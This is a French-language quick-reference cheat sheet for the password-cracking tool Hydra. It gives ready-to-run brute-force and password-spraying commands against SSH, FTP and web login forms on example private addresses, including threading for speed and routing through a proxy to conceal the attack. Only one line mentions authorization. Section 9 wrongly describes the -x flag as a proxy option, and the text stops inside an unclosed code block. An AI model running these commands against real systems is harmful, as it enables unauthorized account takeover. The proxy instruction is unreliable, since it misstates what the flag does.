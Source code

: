 # cheat sheet Hydra

Une référence rapide pour les commandes courantes de **Hydra**, un outil de cracking de mots de passe par force brute, avec fonctions, commandes et exemples.

---

## 1. Attaque par dictionnaire sur SSH
**Fonction** : Tester des mots de passe sur un service SSH.  
**Commande** : `hydra -l <username> -P <wordlist> ssh://<target>`  
**Exemple** : `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10`  
- Tente de craquer le mot de passe de "root" sur SSH à 192.168.1.10 avec rockyou.txt.

---

## 2. Attaque par dictionnaire sur HTTP POST
**Fonction** : Tester des identifiants sur un formulaire web (POST).  
**Commande** : `hydra -l <username> -P <wordlist> <target> http-post-form "<path>:<form_params>:<failure_string>"`  
**Exemple** : `hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:Login failed"`  
- Craque un formulaire à /login avec "admin" et rockyou.txt.

---

## 3. Attaque avec liste d’utilisateurs et mots de passe
**Fonction** : Utiliser des listes pour utilisateurs et mots de passe.  
**Commande** : `hydra -L <userlist> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -L users.txt -P rockyou.txt 192.168.1.10 ssh`  
- Teste plusieurs utilisateurs (users.txt) sur SSH.

---

## 4. Attaque sur FTP
**Fonction** : Craquer des identifiants FTP.  
**Commande** : `hydra -l <username> -P <wordlist> ftp://<target>`  
**Exemple** : `hydra -l ftpuser -P rockyou.txt ftp://192.168.1.20`  
- Tente une attaque sur FTP pour "ftpuser".

---

## 5. Attaque avec mot de passe unique
**Fonction** : Tester un seul mot de passe pour plusieurs utilisateurs.  
**Commande** : `hydra -L <userlist> -p <password> <target> <service>`  
**Exemple** : `hydra -L users.txt -p password123 192.168.1.10 ssh`  
- Teste "password123" pour chaque utilisateur dans users.txt sur SSH.

---

## 6. Ajuster le nombre de threads
**Fonction** : Contrôler la vitesse avec des threads parallèles.  
**Commande** : `hydra -t <threads> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -t 16 -l root -P rockyou.txt ssh://192.168.1.10`  
- Utilise 16 threads pour accélérer l’attaque SSH.

---

## 7. Attaque sur HTTPS GET
**Fonction** : Tester un formulaire web via GET sur HTTPS.  
**Commande** : `hydra -l <username> -P <wordlist> <target> https-get "<path>"`  
**Exemple** : `hydra -l admin -P rockyou.txt 192.168.1.10 https-get "/admin"`  
- Teste l’accès à /admin via GET sur HTTPS.

---

## 8. Sauvegarde des résultats
**Fonction** : Enregistrer les identifiants trouvés dans un fichier.  
**Commande** : `hydra -o <outputfile> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -o results.txt -l root -P rockyou.txt ssh://192.168.1.10`  
- Sauvegarde les résultats dans results.txt.

---

## 9. Attaque avec proxy
**Fonction** : Utiliser un proxy pour masquer l’attaque.  
**Commande** : `hydra -x <proxy> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -x http://127.0.0.1:8080 -l root -P rockyou.txt ssh://192.168.1.10`  
- Utilise un proxy local pour l’attaque SSH.

---

## 10. Mode verbeux
**Fonction** : Afficher plus de détails pendant l’attaque.  
**Commande** : `hydra -V -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -V -l root -P rockyou.txt ssh://192.168.1.10`  
- Affiche chaque tentative en détail.

---

## Notes importantes
- **Permissions** : Assurez-vous d’avoir l’autorisation de tester les cibles.
- **Installation** :  
  ```bash
  sudo apt update && sudo apt install -y hydra
  
